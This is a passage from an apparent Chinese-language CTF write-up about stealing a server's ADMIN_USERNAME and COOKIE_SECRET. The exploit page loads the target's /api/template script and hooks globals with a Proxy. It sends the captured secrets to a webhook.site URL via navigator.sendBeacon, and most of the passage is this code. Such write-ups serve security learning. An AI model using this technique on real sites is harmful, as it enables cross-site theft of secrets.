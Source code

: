 ```html
                        navigator.sendBeacon("https://webhook.site/e708eb94-ea07-490a-969a-742d40033925", "Failed to register");
                        console.log('Service worker error:', err);
                    });
            });

        }
    </script>
</head>

<body>
    byc_404 got this
</body>

</html>
```

exp.html。加载`/api/template`并通过hook的手段拿到ADMIN_USERNAME与COOKIE_SECRET。这里主要是重写与增加了一些函数使得nodejs下的代码放到前端js仍然合法。同时我们要获取的内容语句是：`global.process.env.ADMIN_USERNAME.setFlag(COOKIE_SECRET)`。我们可以使用`Proxy`来hook `global`每次访问属性或调用方法的操作。

```javascript
<body>
    <script>
        const target = "https://prettyjs.bycsec404.top";
        const script = document.createElement('script');
        script.referrerpolicy = 'no-referrer';
        script.src = target + "/api/template"
        document.body.appendChild(script);

        const require = (module) => {
            if (module == 'express') {
                return () => {
                    return {
                        use: () => { },
                        all: () => { },
                        listen: () => { },
                        get: (data, func) => {
                            Object.prototype.global = new Proxy({}, handler);
                            func('byc_404', { send: () => { } });
                        }
                    }
                }
            }
            if (module === 'randomatic') {
                return () => { };
            }
            if (module === 'express-session') {
                return () => { };
            }
        }


        const url = 'https://webhook.site/e708eb94-ea07-490a-969a-742d40033925'
        const handler = {
            get: (target, prop) => {
                console.log(prop);
                if (['process', 'env', 'setFlag'].includes(prop) === false) {
                    navigator.sendBeacon(url, `ADMIN_USERNAME=${prop}`);
                }
                if (prop == 'setFlag') {
                    return (data) => {
                        console.log(data)
                        navigator.sendBeacon(url, `COOKIE_SECRET=${data}`);
```